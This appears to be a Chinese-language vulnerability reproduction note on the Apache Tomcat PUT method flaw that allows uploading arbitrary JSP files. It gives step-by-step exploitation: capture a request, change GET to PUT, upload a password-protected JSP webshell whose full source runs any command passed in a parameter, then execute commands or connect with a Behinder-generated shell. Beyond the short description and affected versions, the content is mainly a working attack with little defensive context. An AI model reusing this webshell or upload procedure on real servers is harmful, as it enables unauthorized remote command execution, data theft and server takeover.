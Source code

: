 # 漏洞描述

Tomcat 是一个小型的轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。 攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 的webshell文件，JSP文件中的恶意代码将能被服务器执行，导致服务器上的数据泄露或获取服务器权限。



# 影响版本

Apache Tomcat 7.0.0 - 7.0.79

Apache Tomcat /8.5.19



# 漏洞验证

访问主页，抓包

![image-20250402103123556](./assets/image-20250402103123556.png)

放入repeat

修改GET请求为PUT

![image-20250402103155597](./assets/image-20250402103155597.png)

204 成功



上传jsp木马文件

```
<%
    if("123".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%> 
```

![image-20250402103233966](./assets/image-20250402103233966.png)



成功上传

![image-20250402103248746](./assets/image-20250402103248746.png)

命令执行

![image-20250402104234936](./assets/image-20250402104234936.png)





或者利用冰蝎生成jsp木马文件

![image-20250402104307358](./assets/image-20250402104307358.png)

put写入

![image-20250402104331121](./assets/image-20250402104331121.png)



成功写入后用冰蝎去连

![image-20250402104633541](./assets/image-20250402104633541.png)